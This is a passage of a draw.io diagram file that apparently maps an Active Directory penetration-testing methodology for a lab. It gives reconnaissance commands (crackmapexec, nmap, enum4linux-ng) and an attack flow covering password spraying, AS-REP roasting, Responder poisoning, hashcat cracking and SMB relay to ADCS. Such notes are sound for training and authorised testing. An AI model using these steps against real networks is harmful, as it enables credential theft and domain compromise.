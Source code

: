 <mxfile version="21.0.8" type="github" pages="5">
  <diagram id="OxgtQte6AoLRu1fJhFKF" name="Reconnaissance">
    <mxGraphModel dx="1134" dy="921" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="1169" pageHeight="827" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontColor=#ffffff;" parent="1" source="5YeQ8Sfoh_ilJxnTGjof-1" target="5YeQ8Sfoh_ilJxnTGjof-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-1" value="&lt;font color=&quot;#ffffff&quot;&gt;Get ip/machines/domains&lt;/font&gt;" style="rounded=1;whiteSpace=wrap;html=1;fontColor=#2a7bde;" parent="1" vertex="1">
          <mxGeometry x="210" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-2" value="&lt;font color=&quot;#ffffff&quot;&gt;&lt;code&gt;&lt;pre&gt;cme smb 192.168.56.1/24&lt;/pre&gt;&lt;/code&gt;&lt;/font&gt;" style="whiteSpace=wrap;html=1;fontColor=#2a7bde;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="400" y="200" width="210" height="80" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-6" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontColor=#ffffff;" parent="1" source="5YeQ8Sfoh_ilJxnTGjof-4" target="5YeQ8Sfoh_ilJxnTGjof-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-4" value="Enum DC" style="rounded=1;whiteSpace=wrap;html=1;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="210" y="300" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-5" value="&lt;code&gt;&lt;pre&gt;nslookup -type&lt;span class=&quot;o&quot;&gt;=&lt;/span&gt;srv _ldap._tcp.dc._msdcs.[DOMAIN] [DNS IP]&lt;/pre&gt;&lt;/code&gt;" style="whiteSpace=wrap;html=1;fontColor=#ffffff;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="400" y="290" width="440" height="80" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontColor=#ffffff;" parent="1" source="5YeQ8Sfoh_ilJxnTGjof-7" target="5YeQ8Sfoh_ilJxnTGjof-8" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-7" value="Enum DNS" style="rounded=1;whiteSpace=wrap;html=1;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="210" y="384" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-8" value="nmap -v -sV -p 53 $SUBNET/$MASK" style="whiteSpace=wrap;html=1;fontColor=#ffffff;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="400" y="383.5" width="260" height="60" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-11" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontColor=#ffffff;" parent="1" source="5YeQ8Sfoh_ilJxnTGjof-10" target="5YeQ8Sfoh_ilJxnTGjof-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-12" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontColor=#ffffff;" parent="1" source="5YeQ8Sfoh_ilJxnTGjof-10" target="5YeQ8Sfoh_ilJxnTGjof-4" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-13" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontColor=#ffffff;" parent="1" source="5YeQ8Sfoh_ilJxnTGjof-10" target="5YeQ8Sfoh_ilJxnTGjof-7" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-17" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontColor=#ffffff;" parent="1" source="5YeQ8Sfoh_ilJxnTGjof-10" target="5YeQ8Sfoh_ilJxnTGjof-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-10" value="Enum" style="rounded=1;whiteSpace=wrap;html=1;fontColor=#ffffff;fillColor=#a20025;strokeColor=#6F0000;" parent="1" vertex="1">
          <mxGeometry x="10" y="290" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-16" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontColor=#ffffff;" parent="1" source="5YeQ8Sfoh_ilJxnTGjof-14" target="5YeQ8Sfoh_ilJxnTGjof-15" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-14" value="Enum services" style="rounded=1;whiteSpace=wrap;html=1;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="210" y="460" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="5YeQ8Sfoh_ilJxnTGjof-15" value="&lt;code&gt;&lt;pre&gt;nmap &lt;span class=&quot;nt&quot;&gt;-Pn&lt;/span&gt; &lt;span class=&quot;nt&quot;&gt;-p-&lt;/span&gt; &lt;span class=&quot;nt&quot;&gt;-sC&lt;/span&gt; &lt;span class=&quot;nt&quot;&gt;-sV&lt;/span&gt; &lt;span class=&quot;nt&quot;&gt;-oA&lt;/span&gt; full_scan_goad [RANGE IP]&lt;/pre&gt;&lt;/code&gt;" style="whiteSpace=wrap;html=1;fontColor=#ffffff;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="400" y="460" width="380" height="60" as="geometry" />
        </mxCell>
        <mxCell id="aNRAIpRnyOp7dpAG2fmc-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontColor=#f0f0f0;" parent="1" source="aNRAIpRnyOp7dpAG2fmc-1" target="aNRAIpRnyOp7dpAG2fmc-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="aNRAIpRnyOp7dpAG2fmc-1" value="&lt;font color=&quot;#f0f0f0&quot;&gt;Check password policy&lt;/font&gt;" style="rounded=1;whiteSpace=wrap;html=1;fontColor=#2a7bde;" parent="1" vertex="1">
          <mxGeometry x="210" y="550" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="aNRAIpRnyOp7dpAG2fmc-2" value="&lt;font color=&quot;#f0f0f0&quot;&gt;enum4linux-ng [DC-IP]&lt;br&gt;&lt;/font&gt;" style="whiteSpace=wrap;html=1;fontColor=#2a7bde;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="410" y="550" width="200" height="60" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
  <diagram id="9fB0GFrZQWABB-8gzhsE" name="From no creds">
    <mxGraphModel dx="2757" dy="1290" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="1169" pageHeight="827" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="q669wVBJVDhqwRxZ6Rot-2" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontSize=14;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="OosuojFDGbZqmqcItjsv-1" target="q669wVBJVDhqwRxZ6Rot-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="FLfiycKaQOmbqjivF0rp-5" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=14;" parent="1" source="OosuojFDGbZqmqcItjsv-1" target="FLfiycKaQOmbqjivF0rp-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="jPcHIa5_UzPbIbgbxopM-1" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FFFFFF;" parent="1" source="OosuojFDGbZqmqcItjsv-1" target="KTRm8kq6GDk7_ihK_bxa-8" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="3fBEoELCNlQG3BJW24ry-1" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FFFFFF;fontColor=#2a7bde;" parent="1" source="OosuojFDGbZqmqcItjsv-1" target="X6wlxV_FrzrZ-9Moiesy-8" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="wKqIxz2qH3VzgjHIJMqc-2" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="OosuojFDGbZqmqcItjsv-1" target="wKqIxz2qH3VzgjHIJMqc-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="OosuojFDGbZqmqcItjsv-1" value="Reconnaissance" style="rounded=1;whiteSpace=wrap;html=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="-130" y="262.5" width="130" height="60" as="geometry" />
        </mxCell>
        <mxCell id="q669wVBJVDhqwRxZ6Rot-6" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontSize=14;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="q669wVBJVDhqwRxZ6Rot-1" target="q669wVBJVDhqwRxZ6Rot-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="3KcXfi7NhkpAm5ZNJReR-2" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontSize=13;fontColor=#dc8add;" parent="1" source="q669wVBJVDhqwRxZ6Rot-1" target="3KcXfi7NhkpAm5ZNJReR-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="q669wVBJVDhqwRxZ6Rot-1" value="Man in the middle" style="whiteSpace=wrap;html=1;rounded=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="210" y="400" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="uoBzjgSmHts_p8Hy3lkX-3" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;fontSize=14;fontColor=#2a7bde;" parent="1" source="q669wVBJVDhqwRxZ6Rot-3" target="y5aqqQjo2jUjklV6V6uS-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="q669wVBJVDhqwRxZ6Rot-3" value="&lt;div&gt;Password spray&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#dc8add&quot;&gt;bruteforce des users pour 1 mot de passe&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#dc8add&quot;&gt;&lt;br&gt;&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#dc8add&quot;&gt;&lt;font color=&quot;#2a7bde&quot;&gt;cme&lt;/font&gt;&lt;br&gt;&lt;/font&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="1200" y="180" width="240" height="110" as="geometry" />
        </mxCell>
        <mxCell id="OzdCo0pd7L-W225KIUEy-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontColor=#2a7bde;" parent="1" source="q669wVBJVDhqwRxZ6Rot-5" target="OzdCo0pd7L-W225KIUEy-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="eT468RpVeFGScJ7yV71r-2" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="q669wVBJVDhqwRxZ6Rot-5" target="eT468RpVeFGScJ7yV71r-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="q669wVBJVDhqwRxZ6Rot-5" value="Relay" style="whiteSpace=wrap;html=1;rounded=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="370" y="530" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="y5aqqQjo2jUjklV6V6uS-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="FLfiycKaQOmbqjivF0rp-3" target="y5aqqQjo2jUjklV6V6uS-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="y5aqqQjo2jUjklV6V6uS-10" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;fontColor=#ffa348;" parent="1" source="FLfiycKaQOmbqjivF0rp-3" target="1S_cvOo1YeR9LOM_VgR6-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="FLfiycKaQOmbqjivF0rp-3" value="Find open smb share" style="rounded=1;whiteSpace=wrap;html=1;fontSize=14;" parent="1" vertex="1">
          <mxGeometry x="210" y="122.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="1S_cvOo1YeR9LOM_VgR6-6" style="edgeStyle=none;curved=1;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=14;fontColor=#000000;startSize=8;endSize=8;" parent="1" source="1S_cvOo1YeR9LOM_VgR6-3" target="q669wVBJVDhqwRxZ6Rot-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="y5aqqQjo2jUjklV6V6uS-11" value="&lt;font style=&quot;font-size: 13px;&quot;&gt;Get mdp&lt;/font&gt;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];fontColor=#ffa348;" parent="1S_cvOo1YeR9LOM_VgR6-6" vertex="1" connectable="0">
          <mxGeometry x="-0.253" y="1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="1S_cvOo1YeR9LOM_VgR6-9" value="&lt;font style=&quot;font-size: 13px;&quot; color=&quot;#ffa348&quot;&gt;Get Hash&lt;/font&gt;" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=14;fontColor=#000000;startSize=8;endSize=8;startArrow=none;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="y5aqqQjo2jUjklV6V6uS-16" target="y5aqqQjo2jUjklV6V6uS-13" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="991" y="597.5" as="sourcePoint" />
            <mxPoint x="1561" y="387.5" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="y5aqqQjo2jUjklV6V6uS-19" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=13;fontColor=#ffffff;" parent="1" source="1S_cvOo1YeR9LOM_VgR6-3" target="y5aqqQjo2jUjklV6V6uS-16" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="X6wlxV_FrzrZ-9Moiesy-11" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FFFFFF;fontColor=#2a7bde;" parent="1" source="1S_cvOo1YeR9LOM_VgR6-3" target="X6wlxV_FrzrZ-9Moiesy-10" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="1S_cvOo1YeR9LOM_VgR6-3" value="Valid user(s) found" style="whiteSpace=wrap;html=1;rounded=1;fontSize=14;fillColor=#fa6800;strokeColor=#C73500;fontColor=#000000;" parent="1" vertex="1">
          <mxGeometry x="960" y="267.5" width="140" height="70" as="geometry" />
        </mxCell>
        <mxCell id="y5aqqQjo2jUjklV6V6uS-4" style="edgeStyle=none;curved=1;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;fontSize=14;startSize=8;endSize=8;" parent="1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1426" y="540" as="sourcePoint" />
            <mxPoint x="1426" y="540" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="y5aqqQjo2jUjklV6V6uS-5" value="&lt;div&gt;Valid user found with creds found&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;fontSize=14;fillColor=#e51400;strokeColor=#B20000;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="1650" y="195" width="150" height="80" as="geometry" />
        </mxCell>
        <mxCell id="_KkYkDTvTRN3HUsftzkZ-1" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;fontSize=13;fontColor=#0000aa;" parent="1" source="y5aqqQjo2jUjklV6V6uS-13" target="y5aqqQjo2jUjklV6V6uS-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="y5aqqQjo2jUjklV6V6uS-13" value="&lt;div&gt;Crack avec hashcat&lt;/div&gt;&lt;div&gt;&lt;code&gt;&lt;pre&gt;&lt;font color=&quot;#2a7bde&quot;&gt;hashcat -m 18200&lt;br&gt;&lt;/font&gt;&lt;/pre&gt;&lt;/code&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;fontSize=14;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="1550" y="333.75" width="150" height="72.5" as="geometry" />
        </mxCell>
        <mxCell id="y5aqqQjo2jUjklV6V6uS-16" value="&lt;div&gt;&lt;font color=&quot;#ffffff&quot;&gt;Find users AsRepRoastable&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#ffffff&quot;&gt;&lt;a href=&quot;https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py&quot;&gt;GetNPUsers.py&lt;/a&gt;&lt;br&gt;&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#ffffff&quot;&gt;&lt;br&gt;&lt;/font&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#dc8add&quot;&gt;Users qui ne nécéssite pas de préauthentification pour demander un TGT&lt;/font&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;fontColor=#ffa348;" parent="1" vertex="1">
          <mxGeometry x="1200" y="300" width="220" height="140" as="geometry" />
        </mxCell>
        <mxCell id="3KcXfi7NhkpAm5ZNJReR-4" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontSize=13;fontColor=#dc8add;" parent="1" source="3KcXfi7NhkpAm5ZNJReR-1" target="3KcXfi7NhkpAm5ZNJReR-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="3KcXfi7NhkpAm5ZNJReR-1" value="&lt;div&gt;Poisonning&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;Responder.py&lt;/font&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;fontSize=14;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="370" y="410" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="3KcXfi7NhkpAm5ZNJReR-3" value="Hash found" style="whiteSpace=wrap;html=1;fontSize=14;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="525" y="410" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="3KcXfi7NhkpAm5ZNJReR-9" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.75;entryY=1;entryDx=0;entryDy=0;fontSize=13;fontColor=#dc8add;edgeStyle=orthogonalEdgeStyle;" parent="1" source="3KcXfi7NhkpAm5ZNJReR-7" target="y5aqqQjo2jUjklV6V6uS-5" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="810" y="450" />
              <mxPoint x="1763" y="450" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="3KcXfi7NhkpAm5ZNJReR-7" value="&lt;div&gt;Crack avec hashcat&lt;code&gt;&lt;pre&gt;&lt;font color=&quot;#2a7bde&quot;&gt;hashcat -m 5600&lt;/font&gt;&lt;/pre&gt;&lt;/code&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;fontSize=14;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="660" y="410" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-1" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=13;" parent="1" source="br6T0zjGsd1OOn6515T5-3" target="br6T0zjGsd1OOn6515T5-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-2" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;fontSize=13;" parent="1" source="br6T0zjGsd1OOn6515T5-3" target="br6T0zjGsd1OOn6515T5-16" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-3" value="Attaque" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="10" y="1130" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-4" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontSize=13;" parent="1" source="br6T0zjGsd1OOn6515T5-5" target="br6T0zjGsd1OOn6515T5-7" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-5" value="Relais SMB" style="rounded=1;whiteSpace=wrap;html=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="250" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-6" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;fontSize=13;" parent="1" source="br6T0zjGsd1OOn6515T5-7" target="br6T0zjGsd1OOn6515T5-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-7" value="inscription au service d&#39;inscription web ADCS" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="416" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-8" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontSize=13;" parent="1" source="br6T0zjGsd1OOn6515T5-9" target="br6T0zjGsd1OOn6515T5-11" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-9" value="Récupération d&#39;un certificat" style="whiteSpace=wrap;html=1;rounded=1;fontSize=13;" parent="1" vertex="1">
          <mxGeometry x="580" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="br6T0zjGsd1OOn6515T5-10" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontSize=13;" parent="1" source="br6T0zjGsd1OOn6515T5-11" target="br6T0zjGsd1OOn6515T5-12" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
